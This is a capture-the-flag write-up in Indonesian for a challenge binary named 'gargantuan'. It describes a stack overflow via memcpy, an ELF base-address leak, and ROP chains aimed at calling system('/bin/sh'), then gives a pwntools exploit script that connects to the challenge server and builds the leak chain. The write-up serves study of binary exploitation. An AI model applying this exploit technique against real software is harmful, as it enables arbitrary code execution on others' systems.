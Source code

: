 State stack destination sebelum `memcpy(&s[v1], buf, v0);` pada iterasi kelima.

![chall-sc](https://hackmd.io/_uploads/rk6GgZDmA.png)

State stack destination setelah `memcpy(&s[v1], buf, v0);` pada iterasi kelima.

![chall-sc](https://hackmd.io/_uploads/SkUVeWP7R.png)

Kita dapat menghitung jarak relatif base address dari ELF dengan address dari fungsi `gargantuan` untuk mendapatkan base address dari ELF tersebut. Setelah itu, kita dapat melakukan Return-Oriented Programming (ROP) Chain untuk leak address libc.sym.puts melalui `Procedure Linkage Table (PLT)` fungsi `puts`, dan melakukan Return-Oriented Programming (ROP) Chain kembali untuk memanggil `system('/bin/sh')` yang mengakibatkan `Arbitrary Code Execution`.


#### POC
```python
#!/usr/bin/python3
from pwn import *
exe = './gargantuan'
elf = context.binary = ELF(exe, checksec = 0)
context.log_level = 'debug'
host, port = "nc gargantuan.chal.cyberjousting.com 1352".split(" ")[1:3]
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()
rlf = lambda: io.recvline(0)

def attack(wtc):
	s(lj(b'A' * 0x100, 0x200, b'\0'))
	sleep(0.2)
	s(lj(b'A' * 0x100, 0x200, b'\0'))
	sleep(0.2)
	s(lj(b'A' * 0x100, 0x200, b'\0'))
	sleep(0.2)
	s(lj(b'A' * 0x100, 0x200, b'\0'))
	sleep(0.2)
	s(b'E' * 0x100 + p64(0) + b'F' * 32 + wtc)

attack(b'\x0b') 
rud(b'TOO LATE! ')
gargantuan = int16(rud(b'\n'))
elf.address = gargantuan - 0x000011e5
assert elf.address & 0xfff == 0
li(f"ELF Address: {hex(elf.address)}")
libc = ELF("./libc.so.6", checksec = 0)
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.gargantuan()
li(f"rop chain: {rop.dump()}")
```